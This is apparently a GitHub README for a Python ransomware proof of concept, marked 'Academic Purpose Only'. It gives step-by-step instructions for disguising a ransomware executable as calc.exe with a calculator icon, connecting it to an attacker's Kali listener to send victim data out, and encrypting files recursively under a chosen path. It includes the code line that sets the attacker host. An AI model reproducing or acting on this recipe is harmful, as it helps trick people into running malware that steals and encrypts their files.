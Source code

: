 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## **Academic Purpose Only**

# Flow #
- Execute socket_server.py on your Kali
- Modify raas.py lines 32 client_socket.connect(("Kali IP", 5000))
- Run autopytoexe convertor the program as a exe
- Replace Icon to calculator.ico
- Output as a exectuable file

# Change infecting area #
- Lines 28 on raas.py Filenames = glob.glob("./Path You Want to encrypt/*")
- **Be careful encryption will recursively in all subfolder**
